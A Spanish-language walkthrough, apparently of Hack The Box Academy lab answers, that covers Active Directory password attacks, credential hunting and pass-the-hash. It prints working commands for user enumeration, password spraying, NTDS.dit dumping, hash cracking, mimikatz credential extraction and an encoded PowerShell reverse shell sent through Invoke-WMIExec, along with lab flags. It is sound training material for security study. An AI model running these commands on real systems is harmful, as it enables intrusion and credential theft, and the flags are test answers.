
</p>

answer: **64f12cddaa88057e06a81b54e73b949b**


3. **On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)**

```
nmap -A 10.129.202.85
```

>PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-13 13:32:04Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ILF.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: ILF.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

Podemos concluir que se trata de un Controlador de Dominio, cuyo nombre de dominio es `ILF.local` . La exploración realizada con `nmap` muestra que los servicios necesarios de Active Directory están activos, entre ellos Kerberos (88/tcp), LDAP (389/tcp) y el Catálogo Global (3268/tcp).

Un controlador de dominio almacena el archivo `NTDS.dit` , que contiene los hashes de las contraseñas de todos los usuarios, ordenadores y servicios del dominio completo.

A continuación, dado que la pregunta solicita específicamente la contraseña de John Masrston, generamos una larga lista de posibles nombres de usuario que incluían su nombre, utilizando una herramienta como `username-anarchy` .

Para descargar la herramienta **username-anarchy** usaremos el siguiente comando:

```
git clone https://github.com/urbanadventurer/username-anarchy.git
```

Dentro de la carpeta **username-anarchy** realizaremos el siguiente comando:

```
./username-anarchy john marston >> names.txt
```

Esto nos dará un diccionario de  **john marston** escrito de diferente formas.

<p align="center"> 

</p>

Luego, descargaremos la herramienta **kerbrute**

```
sudo wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64  
sudo chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum -d ILF.local --dc 10.129.202.85 names.txt  
```

><font color="#00b050">[+]</font> VALID USERNAME:	jmarston@ILF.local

Realizamos fuerza bruta con el diccionario **fasttrack.txt** con la herramienta **netexec**

```
netexec smb 10.129.202.85 -u jmarston -p /usr/share/wordlists/fasttrack.txt 
```

><font color="#00b050">[+]</font> ILF.local\jmarston:P@ssword! (Pwn3d!)

Answer: **jmarston**:**P@ssword!**

4. **Capture the NTDS.dit file and dump the hashes. Use the techniques taught in this section to crack Jennifer Stapleton's password. Submit her clear-text password as the answer. (Format: Case-Sensitive)**

Continuando el ejercicio anterior, realizaremos el siguiente comando:

```
netexec smb 10.129.202.85 -u jmarston -p P@ssword! -M ntdsutil 
```

El archivo `NTDS.dit` es el corazón del Directorio Activo. Contiene:

- Todos los nombres de usuario del dominio.
- **Todos los hashes de las contraseñas** de todos los usuarios (incluyendo Administradores del Dominio).
- Información de grupos y políticas.

<p align="center"> 

</p>


Como nos interesa la contraseña descodificada del usuario **Jennifer Stapleton's**  usaremos el hashcat.

```
 hashcat -a 0 -m 1000 92fd67fd2f49d0e83744aa82363f021b /usr/share/wordlists/rockyou.txt
```

answer: **Winter2008**

### Credential Hunting in Windows

1. **What password does Bob use to connect to the Switches via SSH? (Format: Case-Sensitive)**

RDP to with user "<font color="#00b050">Bob</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp3 /u:Bob /p:HTB_@cademy_stdnt! /v:10.129.202.99
```

Luego en el escritorio accedemos a **WorkStuff** - **Creds** - **passwords**

<p align="center"> 

</p>

answer: **WellConnected123**

2. **What is the GitLab access code Bob uses? (Format: Case-Sensitive)**

Después, en la siguiente ruta **WorkStuff** - **Creds** encontramos las credenciales de **Bob**

<p align="center"> 

</p>

answer: **3z1ePfGbjWPsTfCsZfjy**

3. **What credentials does Bob use with WinSCP to connect to the file server? (Format: username:password, Case-Sensitive)**

En linux descargo el prorgrama LaZagne.exe con el siguiente comando:

```
sudo wget https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.7/LaZagne.exe
sudo chmod 777 LaZagne.exe 
```

Preparo el puerto de escucha donde descargue la herramienta.

```
sudo python3 -m pyftpdlib --port 21
```

Luego, en windows creo una carpeta llamada herramienta en la ruta "/". Dentro de la carpeta descargo el programa **LaZagne.exe**

>LaZagne es una herramienta de código abierto diseñada para **recuperar contraseñas almacenadas localmente** en un sistema operativo. Aunque es muy popular en auditorías de seguridad y pruebas de penetración (Pentesting), también es utilizada por actores maliciosos para el robo de credenciales.

>Su función principal es "rebuscar" en diferentes aplicaciones y extraer las claves que los usuarios han guardado por comodidad.

```
Invoke-WebRequest -Uri "ftp://10.10.15.143/LaZagne.exe" -OutFile "LaZagne.exe"
start LaZagne.exe all
```

<p align="center"> 

</p>

answer: **ubuntu**:**FSadmin123**

4. **What is the default password of every newly created Inlanefreight Domain user account? (Format: Case-Sensitive)**

Como estoy logueado con el usuario Bob, realizaré el siguiente comando para tener mas información de él

```
net user bob
```

<p align="center"> 

</p>

Pertenece al grupo Administrador, por tanto puedo acceder a cualquier carpeta. Con el siguiente comando busco algun **.txt** importante.

```
findstr /S /I /M /C:"newuser" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml 
```

<p align="center"> 

</p>

Accedo a la siguiente **Automations&Scripts\BulkaddADusers.ps1**

<p align="center"> 

</p>

answer: **Inlanefreightisgreat2022**

5. **What are the credentials to access the Edge-Router? (Format: username:password, Case-Sensitive)**

En la siguiente ruta, **C:/Automations&Scripts/AnsibleScripts/EdgeRouterConfigs** se encuentra la respuesta de la pregunta.

```
C:/Automations&Scripts/AnsibleScripts/EdgeRouterConfigs
```

```powershell
# This ansible playbook is a work in progress. Its supposed to automate the process of configure router interfaces across our network. 
- name: Configure Interfaces
  hosts: Edge-Router
  roles:
    - juniper.junos
  connection: local
  vars_prompt:
    - name: username
      prompt: Junos Username
      private: no 

    - name: password
      prompt: Junos password 
      private: Yes
  
  tasks: 
    - name: Checking NETCONF connectivity
      wait_for:
        host: "{ Edge-Router }"
        port: "{ netconf_port }"
        timeout: 5
    - name: Configure Interfaces Status
      user: "{ edgeadmin }"
      passwd: "{ Edge@dmin123!} "
# Need to finish configuring this task. I should probably read some books on ansible.
```

answer: **edgeadmin**:**Edge@dmin123!**

## Extracting Passwords from Linux Systems

### Linux Authentication Process

1. **Download the attached ZIP file (linux-authentication-process.zip), and use single crack mode to find martin's password. What is it?**

```
wget https://academy.hackthebox.com/storage/modules/147/linux-authentication-process.zip
unzip linux-authentication-process.zip
```

<p align="center"> 

</p>

```
unshadow passwd shadow| tee unshadowed
```

- **`unshadow`**: Es una herramienta que viene incluida en la suite de _John the Ripper_. Su función es leer los archivos `/etc/passwd` y `/etc/shadow` para generar un archivo combinado.
- **`passwd`**: Es la copia del archivo `/etc/passwd`. Este archivo contiene información de los usuarios (ID, nombre, directorio home), pero **no** las contraseñas (en sistemas modernos, solo verás una `x` donde debería ir la clave).
- **`shadow`**: Es la copia del archivo `/etc/shadow`. Este es el archivo sensible que contiene los **hashes** (versiones cifradas) de las contraseñas reales. Solo el usuario _root_ puede leerlo normalmente.
- **`tee unshadowed`**: El comando `tee` funciona como una "T" en una tubería:
    - Muestra el resultado en la pantalla para que lo veas.
    - Al mismo tiempo, lo guarda en un archivo llamado `unshadowed`.

```
john --single unshadowed
```

A diferencia de otros modos que usan listas de palabras externas (diccionarios), el modo Single se basa en la **información del propio usuario**. John asume que muchas personas son descuidadas y usan contraseñas relacionadas con sus propios datos.

answer: **Martin1**

2. **Use a wordlist attack to find sarah's password. What is it?**

El hash de sarah

>$6$EBOM5vJAV1TPvrdP$LqsLyYkoGzAGt4ihyvfhvBrrGpVjV976B3dEubi9i95P5cDx1U6BrE9G020PWuaeI6JSNaIDIbn43uskRDG0U/

lo guardamos en un .txt llamado **myhash** y luego usamos la herramienta hashcat llegamos para descodificarlo.

```
hashcat -a 0 -m 1800 myhash /usr/share/wordlists/rockyou.txt
```

answer: **mariposa**

### Credential Hunting in Linux

1. **Examine the target and find out the password of the user Will. Then, submit the password as the answer.**

SSH to with user "<font color="#00b050">kira</font>" and password "<font color="#c00000">L0vey0u1!</font>"

```
ssh kira@10.129.50.31
cd ~/.mozilla/firefox/ytb95ytb.default-release/
```

Unas vez situado en la siguiente ruta, averiguamos que python tenemos

```
which python3.9
```

>/usr/bin/python3.9

Luego, en la kali descargamos la herramienta **firefox decrypt** 

**Firefox Decrypt** es una herramienta desarrollada en Python diseñada para extraer y descifrar las contraseñas guardadas en los perfiles de los navegadores de la familia Mozilla (Firefox, Iceweasel, Icedove y Thunderbird).

A diferencia de un ataque de fuerza bruta, esta herramienta **no intenta adivinar** las contraseñas, sino que las recupera directamente del almacenamiento local del navegador.

Con el siguiente comando descargamos la herramienta

```
git clone https://github.com/unode/firefox_decrypt
```

Luego, abrimos el puerto de escucha

```
sudo python3 -m pyftpdlib --port 21
```

Volviendo a la máquina atacante descargamos la herramienta **firefox_decrypt.py** dentro esta ruta **~/.mozilla/firefox/ytb95ytb.default-release/**

```
curl --output firefox_decrypt.py ftp://10.10.15.143/firefox_decrypt.py
chmod +x firefox_decrypt.py
python3.9 firefox_decrypt.py
2
```

<p align="center"> 

</p>

answer: **TUqr7QfLTLhruhVbCP**

## Extracting Passwords from the Network 

### Credential Huntinh in Network Traffic

1. **The packet capture contains cleartext credit card information. What is the number that was transmitted?**

Descargamos el .zip y lo extraremos, luego usamos este comando para leerlos con wireshark

```
wireshark demo.pcapng &
```

Luego en el buscador ponemos **http** Luego buscamos donde ponga **POST** 

<p align="center"> 

</p>

answer: **5156 8829 4478 9834**

2. **What is the SNMPv2 community string that was used?**

En el buscador buscamos **snmp** 

<p align="center"> 

</p>

answer: **s3cr3tSNMPC0mmun1ty**

3. **What is the password of the user who logged into FTP?**

En el buscador buscamos **ftp** y buscamos donde pone **PASS**

<p align="center"> 

</p>

4. **What file did the user download over FTP?**

En el buscador buscamos **ftp** y luego investigue

<p align="center"> 

</p>

### Credential Hunting in Network Shares

1. **One of the shares mendres has access to contains valid credentials of another domain user. What is their password?**

RDP to with user "<font color="#00b050">mendres</font>" and password "<font color="#c00000">Inlanefreight2025!</font>"

```
xfreerdp3 /u:mendres /p:Inlanefreight2025! /v:10.129.234.173
net share
```

El comando `net share` se utiliza en Windows para **gestionar los recursos compartidos** de una red local. Básicamente, sirve para ver, crear o eliminar carpetas e impresoras que otros usuarios de la red pueden ver y utilizar.

<p align="center"> 

</p>

```
findstr /SIN /C:"passw" "\\DC01.inlanefreight.local\\IT\\*.txt"
```

Este es un comando de búsqueda muy potente en Windows que se utiliza para **encontrar archivos que contengan información sensible** (como contraseñas) dentro de servidores o carpetas compartidas en una red.

- **`findstr`**: Es la herramienta de Windows para buscar cadenas de texto dentro de archivos (similar al `grep` de Linux).
- **`/S`** (_Subdirectories_): Busca en la carpeta actual y en **todas las subcarpetas** que existan dentro de ella.
- **`/I`** (_Ignore case_): No distingue entre mayúsculas y minúsculas. Encontrará "PASSW", "Passw" o "passw".
- **`/N`** (_Line Numbers_): Te indica en qué **número de línea** exacto del archivo se encontró la palabra. Esto te ahorra mucho tiempo al abrir el archivo.
- **`/C:"passw"`**: Especifica la cadena de texto exacta que buscas. Al usar "passw" (sin terminar la palabra), encontrará "password", "passwords", "passw: 123", etc.
- **`"\\DC01.inlanefreight.local\IT\*.txt"`**:
    - `\\DC01.inlanefreight.local`: Es la dirección del servidor (probablemente un Controlador de Dominio en este laboratorio).
    - `\IT`: Es la carpeta compartida donde suelen guardarse guías, scripts o notas de los administradores.
    - `\*.txt`: Le dice al comando que solo analice archivos con extensión **.txt**.

>\\DC01.inlanefreight.local\\IT\\Tools\split_tunnel.txt:5:# Auth backup password: INLANEFREIGHT\jbader:ILovePower333###

answer: **ILovePower333###**

2. **As this user, search through the additional shares they have access to and identify the password of a domain administrator. What is it?**

Después de encontrar un nuevo conjunto de credenciales, repetí el proceso de búsqueda para encontrar la contraseña del administrador del dominio.

Primero, desconectamos la conexión y luego la volvimos a establecer mediante RDP, utilizando las credenciales recién encontradas para el usuario `jbader` .

```
xfreerdp3 /u:jbader /p:ILovePower333### /v:10.129.234.173 -f
net share
```

<p align="center"> 

</p>

```
findstr /SIN /C:"passw" "\\DC01.inlanefreight.local\\HR\\*.txt"
```

>\\DC01.inlanefreight.local\\HR\\Confidential\Onboarding_Docs_132.txt:25:**Password:** `Str0ng_Adm1nistrat0r_P@ssword_2025!`

answer: **Str0ng_Adm1nistrat0r_P@ssword_2025!**

## Windows Lateral Movement Techniques

### Pass the Hash (PtH)

1. **Access the target machine using any Pass-the-Hash tool. Submit the contents of the file located at C:\pth.txt.**

Authenticate to with user "<font color="#00b050">Administrator</font>" and password "<font color="#c00000">30B3783CE2ABF1AF70F77D0660CF3453</font>"

```
evil-winrm -i 10.129.204.23 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
type C:\pth.txt
```

answer: `G3t_4CCE$$_V1@_PTH`

2. **Try to connect via RDP using the Administrator hash. What is the name of the registry value that must be set to 0 for PTH over RDP to work? Change the registry key value and connect using the hash with RDP. Submit the name of the registry value name as the answer.**

**DisableRestrictedAdmin** es una configuración del registro de Windows que controla si los administradores pueden conectarse por Escritorio Remoto (RDP) sin enviar su contraseña real al equipo destino. Si el valor es **0**, se permite el "Modo de Administrador Restringido", lo que facilita a un atacante entrar al sistema usando solo un **hash** robado (ataque Pass-the-Hash) en lugar de la clave de texto plano. Básicamente, es una función de seguridad que, si está mal configurada o es manipulada por un intruso, se convierte en una puerta trasera para tomar control visual del equipo de forma sencilla.

answer: **DisableRestrictedAdmin**

3. **Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account?**

RDP to with user "<font color="#00b050">Administrator</font>" and password "<font color="#c00000">30B3783CE2ABF1AF70F77D0660CF3453</font>"

Continuando con la sesión de la pregunta anteriores, debemos ejecutar este comando para habilitar DisableRestrictedAdmin

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

>The operation completed successfully.

Al configurar `DisableRestrictedAdmin` en `0` , se activa el Modo de Administración Restringida. Paradójicamente, este es el modo que permite la comunicación mediante PtH sobre RDP. Una vez configurado, nos conectamos mediante RDP, utilizando el hash correspondiente.

```
xfreerdp3 /u:Administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453 /v:10.129.204.23
cd /Tools
```

Dentro de la carpeta tool usaremos la herramienta **mimikatz**

```
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

<p align="center"> 

</p>

4. **Using David's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\david and read the file david.txt.**

Antes tenemos que saber que dominio tenemos presente:

```
systeminfo | findstr /B /C:"Domain"
```

>inlanefreight.htb

Dentro de la interfaz de **mimikatz** introducimos el siguiente comando:

```
sekurlsa::pth /user:david /rc4:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.htb /run:cmd.exe
type \\DC01\\david\\david.txt
```

<p align="center"> 

</p>

answer: **D3V1d_Fl5g_is_Her3**

5. **Using Julio's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\julio and read the file julio.txt.**

```
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

<p align="center"> 

</p>

HASHNTLMJULIO: **64f12cddaa88057e06a81b54e73b949b**

Estando dentro mimikatz ejecutamos el siguiente comando:

```
sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.htb /run:cmd.exe
type \\DC01\\julio\\julio.txt
```

answer: **`JuL1()_SH@re_fl@g`**

6. **Using Julio's hash, perform a Pass the Hash attack, launch a PowerShell console and import Invoke-TheHash to create a reverse shell to the machine you are connected via RDP (the target machine, DC01, can only connect to MS01). Use the tool nc.exe located in c:\tools to listen for the reverse shell. Once connected to the DC01, read the flag in C:\julio\flag.txt.**

Para llevar a cabo el ejercicio tenemos que tener una sesion abierta como julio

```
./mimikatz.exe
sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.htb /run:cmd.exe
```

Una vez iniciada sesión realizamos tenemos que comprobar si tenemos a **DC01**

```
ping DC01
```

<p align="center"> 

</p>

Luego quiero saber la ip que tiene la sesión de julio 

```
ipconfig
```

<p align="center"> 

</p>

Por tanto, la cosa quedaría así:

DC01: **172.16.1.9**
IP de julio: **172.16.1.5**

Luego en la maquina de julio nos situamos en la carpeta tools y ejecutamos la siguiente herramienta:

```
.\nc.exe -lvnp 8080
```

Luego, en nuestra maquina Windows normal tenemos que preparar el siguiente payload, que lo haremos [aquí](https://www.revshells.com)

<p align="center"> 

</p>

```
cd /tools/Invoke-TheHash
Import-Module .\\Invoke-TheHash.psd1
```

Una vez activado el módulo, realizamos el comando siguiente:

```
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64f12cddaa88057e06a81b54e73b949b -Command "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA3ADIALgAxADYALgAxAC4ANQAiACwAOAAwADgAMAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="
```

Luego en la otra terminal observamos en el puerto de escucha si hemos obtenido conexión.

<p align="center"> 

</p>

answer: `JuL1()_N3w_fl@g`

7. **Optional: John is a member of Remote Management Users for MS01. Try to connect to MS01 using john's account hash with impacket. What's the result? What happen if you use evil-winrm?. Mark DONE when finish**

answer: **DONE**

### Pass the Ticket (PtT) from Windows

1. **Connect to the target machine using RDP and the provided creds. Export all tickets present on the computer. How many users TGT did you collect?**

RDP to with user "<font color="#00b050">Administrator</font>" and password "<font color="#c00000">AnotherC0mpl3xP4$$</font>"

```
xfreerdp3 /u:'Administrator' /p:'AnotherC0mpl3xP4$$' /v:10.129.55.159
```

“**Pass the Ticket**” (PtT)  --> En este ataque, se utiliza un ticket Kerberos robado para realizar los movimientos laterales, en lugar del hash de la contraseña NTLM.

Luego, me situó a la del raiz, y accedo a la carpeta **tools** donde se encontrara la herramienta **mimikatz.exe**

```
./mimikatz.exe
privilege::debug
sekurlsa::tickets /export
exit
dir
```

